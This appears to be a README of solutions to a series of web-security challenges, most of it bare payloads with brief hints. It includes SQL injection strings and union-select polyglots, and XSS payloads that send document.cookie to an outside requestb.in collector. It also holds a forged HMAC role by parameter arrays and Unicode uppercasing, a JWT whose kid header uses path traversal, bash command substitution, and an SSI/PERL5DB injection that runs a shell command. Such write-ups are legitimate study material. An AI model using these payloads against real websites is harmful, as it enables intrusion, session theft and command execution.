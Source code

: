 # 1. sqli
http://188.166.248.215/

<details>
<summary>Solution</summary>
<code>0||1</code>
</details>

# 2. sqli
http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/

<details>
<summary>Solution</summary>
<code>'or'1</code>
</details>

# 3. sqli
http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/

<details>
<summary>Solution</summary>

<code>'||1-- </code>

</details>

# 4. sqli
http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/

<details>
<summary>Solution</summary>
<code>0-- '||1-- "||1-- </code>
</details>

# 5. xss
http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/

<details>
<summary>Solution</summary>

```
<img src=x onerror='src="http://requestb.in/1bikbhd1?x="+encodeURIComponent(document.cookie)'>
```

</details>



# 6. sqli
http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/

<details>
<summary>Solution</summary>

username: `\`  
password: `||1-- `

</details>


# 7. xss
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/

<details>
<summary>Solution</summary>
<p>

js:
`');}location='http://requestb.in/1bikbhd1?x='+encodeURIComponent(document.cookie);{{'*/'/*`

url:
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/?js=')%3B%7Dlocation%3D'http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fx%3D'%2BencodeURIComponent(document.cookie)%3B%7B%7B'*%2F'%2F*

</p>
</details>

# 8. xss
http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/

<details>
<summary>Hint</summary>
<p>

`?url` query parameter is vulnerable to xss. CSP rules are:  
`Content-Security-Policy:default-src 'none'; script-src 'nonce-disabled';`

</p>
</details>

<details>
<summary>Solution</summary>
<p>

url param:

```
pwn"><script nonce="disabled">location="http://requestb.in/1bikbhd1?y="+encodeURIComponent(document.cookie)</script><p x="
```

http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/?url=pwn%22%3E%3Cscript%20nonce%3D%22disabled%22%3Elocation%3D%22http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fy%3D%22%2BencodeURIComponent(document.cookie)%3C%2Fscript%3E%3Cp%20x%3D%22

</p>
</details>

# 9. sqli (triple short)
http://139.59.127.144/d25d0cb4-90c3-465d-8733-b50229371377/

<details>
<summary>Solution</summary>
<p>

```
"="'='
```

</p>
</details>


# 10. sqli (12 random short)
http://139.59.127.144/9fc91798-4c0f-4e23-ab10-32e03e77ac95/

<details>
<summary>Solution</summary>
<p>

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||6='||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||'||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`0='&&0 union select char(0x73756363,6648691)from dual where 1||'"&&0 union select char(0x73756363,6648691)from dual where 1||"&&0 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)from dual where!'"union select char(0x73756363,6648691)from dual where 1||"=3 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)-- '"union select char(0x73756363,6648691)-- "=3 union select char(0x73756363,6648691)-- `

`'union select char(0x73756363,6648691)-- '"union select'success'-- "=3 union select'success'-- `

`'union select char(0x73756363,6648691)#'"union select'success'#"=3 union select'success'#`

`5=6 union select char(0x73756363,6648691)-- '=7 union select'success'-- "=7 union select'success'-- `

`0=3 union select char(0x73756363,6648691)-- 'union select'success'-- "union select'success'-- `

`0=3 union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@ union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@/*'/*"/**/union select'success'#`

```
@#'#"
union select'success'#
```

</p>
</details>

# 11. ruby hmac token 1
http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/

<details>
<summary>Hint</summary>
<p>

There is source leak by forcing some ruby error, for example utf8 decoding error. We need to sign a malformed string, but that's not a problem.

http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/?data=aaaaaaaaa%FFb%20%20%20%20%20%20%20%20%20GUEST%20%20%20%20%20&hmac=ca9a9653f330c29dc8f797c08d6f23a16e17c2132e993b7981a1ad330723b655

```
  end

  generated_hmac = OpenSSL::HMAC.hexdigest(OpenSSL::Digest.new('sha256'), KEY, params["data"])
  unless params["hmac"] == generated_hmac
    return "go away hacker"
  end

  @first_name, @last_name, @role = params["data"].scan(/.{10}/).map(&:rstrip)

  if @role == "ADMIN"
    content_type :txt
    return File.read("#{__dir__}/../next_challenge_info.txt")
  else
    @title = "User Info"
    erb :index
```

</p>
</details>

<details>
<summary>Solution</summary>
<p>

Post data:  
```
first_name[]=1&first_name[]=2&first_name[]=3&first_name[]=444ADMIN++++++++++++++&first_name[]=5&first_name[]=6&first_name[]=7&first_name[]=8&first_name[]=9&first_name[]=0&last_name=ADMIN
```

</p>
</details>

# 12. ruby hmac token 2
http://139.59.127.146/ffd88992-6cc1-4733-bcb5-39dd5b1603a8/

<details>
<summary>Hint</summary>
<p>
This time there is no source, previous exploit doesn't work. This time they capitalized all the input.
</p>
</details>

<details>
<summary>Solution</summary>
<p>

Assume they cut the length before capitalizing and pad afterwards. Unicode anyone? There are codepoints that expand to
more codepoints when uppercased.

ftp://ftp.unicode.org/Public/UCD/latest/ucd/SpecialCasing.txt

```
first_name=aa%1F%B2%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7&last_name=admin+++++
```

</p>
</details>

# 13. jwt bypass
http://139.59.112.116/dddace4a-d619-4204-bb15-df6c0a24d6de/

<details>
<summary>Hint</summary>
<p>
They use this lib: https://github.com/jwt/ruby-jwt
</p>
</details>

<details>
<summary>Solution</summary>
<p>

kid was a local file

```
var kid = "../../../etc/magic";
var alg = "HS256";
var hdr = $@"{{""typ"":""JWT"",""alg"":""{alg}"",""kid"":""{kid}""}}";
var body = $@"{{""user"":""admin""}}";
```

```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii4uLy4uLy4uL2V0Yy9tYWdpYyJ9.eyJ1c2VyIjoiYWRtaW4ifQ.KHvUjYMwH49GkMBB1FyyHJjX8J1kt79VAYadOpLDlMM```

</p>
</details>

# 14. sqli and php password check
http://139.59.127.147/e08720e1-df29-46cb-b1c8-83a32e9083df/

<details>
<summary>Solution</summary>
<p>

```
sqli
database leak with usernames and password hashes
crackstation: ripemd160

sql = "' UNION SELECT * FROM (SELECT '{}') c LEFT JOIN (SELECT '{}') a ON 1 LEFT JOIN (SELECT 0) b on 1 #".format(username, ripemd160(password).hex())
print(make_query(sql, password))
```

</p>
</details>

# 15. bash injection
http://139.59.127.148/ed932765-1a3a-467a-be5b-e11dc1fc542d/

<details>
<summary>Solution</summary>
<p>

```$( pwd | cut -c -9 )$( ls -S -r .. )```

</p>
</details>

# 16. captcha madness with no repeating chars
http://188.166.183.58/96e5c0bd-7f33-4188-94f0-89b3094bd6af/

<details>
<summary>Authors solution</summary>
<p>
http://139.59.127.149/e3cb1461-411d-4281-9c62-80b3c5e83cc9/captcha.php?id=q%27+unioN%0AselEct%0BmId(@fLag%0CFrOM%0D5)%23
</p>
</details>


# 17. echo service
http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/

<details>
<summary>Hint</summary>
<p>
By sending an invalid requests it replies with an error page redirecting to `/index.shtml`. What is `shtml`?

With some investigation we found that the service is in Perl: `index.pl`.
Somehow we found out there is a `/next_challenge` file on the filesystem. Don't remember how.

</p>
</details>

<details>
<summary>Solution</summary>
<p>

```
<!--#set var="PERL5OPT" value="-d" --><!--#set var="PERL5DB" value="BEGIN { require 'perl5db.pl' } END { print `cat /ne*` }" --><!--#include virtual="index.pl" onerror="index.pl"-->
```

http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/?name=%3C!--%23set%20var=%22PERL5OPT%22%20value=%22-d%22%20--%3E%3C!--%23set%20var=%22PERL5DB%22%20value=%22BEGIN%20{%20require%20%27perl5db.pl%27%20}%20END%20{%20print%20`cat%20/ne*`%20}%22%20--%3E%3C!--%23include%20virtual=%22index.pl%22%20onerror=%22index.pl%22--%3E

</p>
</details>
